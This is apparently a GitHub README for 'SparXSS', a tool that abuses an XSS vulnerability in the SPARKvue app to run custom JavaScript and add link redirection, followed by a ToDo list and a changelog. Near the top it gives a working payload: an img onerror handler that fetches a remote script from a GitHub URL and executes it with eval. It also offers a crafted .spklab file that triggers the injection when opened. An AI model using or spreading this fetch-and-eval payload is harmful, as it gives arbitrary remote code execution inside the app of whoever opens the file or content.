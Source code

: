 ## A JS Script For Redirection And Custom Javascript Execution For The SPARKvue XSS Vulnerability Found By ohonbob

Run it using:
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/Amukerd/SparXSS/main/sparxss.js").then(r=>r.text()).then(c=>eval(c))'>
```

Or Download The SparXSS.spklab File And Select 'Open Saved Experiment' When You Open The App

## ToDo
- ~~Make Icon's Show up for Every URL~~
- ~~Make the custom URL's stay when you export the .spklab file~~<br>
  (currently working, may be changed in the future- change the link from /sparxss.js to /Testing/test4.js to use)
- May add a tabbing feature to the javascript, but this is not a final decision

## Changelog

10/27/2023
- Added a third button in the hyperlinks menu that lets you copy the text in the textbox, so you can keep adding links incase you either dont want to export the file, or want to keep adding links in the future<br>
  If you do hit the copy button, all you have to do is paste the stuff copied to your clipboard in the textbox when reopening the app
- Added cancel feature to the menu that you type the hyper link URL's in, so you don't have to when you click the button
- Might have found a way to save the textbox .value without manually clicking it, contrary to what I had previously thought you had to do

10/26/2023
- Found out you have to click the textbox to update it before exporting to make the links actually save
- Made the javascript box load with the script instead of everytime the button is clicked

10/25/2023
- Basic link saving functionality added
- The hyperlink button now accepts pressing enter to add a hyperlink

10/24/2023
- The checkpoint2 and getFaviconUrl functions have been combined into 1 function (only checkpoint2 now)
- The Hyperlink URL can now have https:// when it could not before
- Uploaded New SparXSS.spklab file to reflect the updates made so far

